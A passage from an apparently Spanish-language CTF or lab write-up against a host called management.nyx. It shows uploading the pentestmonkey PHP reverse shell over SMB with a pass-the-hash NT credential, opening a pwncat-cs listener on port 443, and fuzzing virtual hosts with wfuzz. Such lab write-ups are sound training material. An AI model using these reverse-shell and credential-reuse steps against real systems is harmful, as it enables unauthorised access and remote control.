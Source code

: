 Primero vamos a descargarnos la [típica reverse shell de Pentest Monkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php) y a editarla poniendo la IP de nuestra máquina y el puerto por el que vamos a estar en escucha.
![Write-up Image](images/Screenshot_3.png)

Vamos a cambiarla el nombre y a subirla.
```console
mv php-reverse-shell.php pointedshell.php
smbclient \\\\192.168.2.8\\RESOURCE -p 4445 -U 'crow%F9FE0310AF66C797A73CB60B1953FCD7' --pw-nt-hash
Try "help" to get a list of possible commands.
smb: \> put pointedshell.php
putting file pointedshell.php as \pointedshell.php (536.3 kb/s) (average 536.3 kb/s)
```

Una vez subida, vamos a ponernos en escucha con `pwncat-cs` por el puerto 443.
```console
pwncat-cs -lp 443
```

Y vaya, no se está interpretando el archivo PHP y se me está descargando, esto puede ser por varias razones, quizás está habilitado solo algunas extensiones PHP, quizás solo en algunos sitios.
![Write-up Image](images/Screenshot_4.png)

### Virtual Hosting Fuzzing 
Esto hizo que me acordase que ahora tenemos el dominio `management.nyx`, así que podemos intentar encontrar subdominios y comprobar si por detrás hay Virtual Hosting.

Vemos al cabo de un rato que no encontramos nada, esto puede ser o bien porque no existe Virtual Hosting, o porque la página raíz es la misma (o tiene el mismo número de caracteres) y yo estoy filtrando por caracteres.
```console
wfuzz --hh=186 -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.management.nyx' http://management.nyx
```

Por lo cual vamos a filtrar en el recurso de la reverse shell que hemos subido por el número de caracteres que tiene la reverse shell, esto lo hago para saber si existe Virtual Hosting y en alguno de estos subdominios se interpreta el PHP o directamente se muestra el fichero en texto claro.
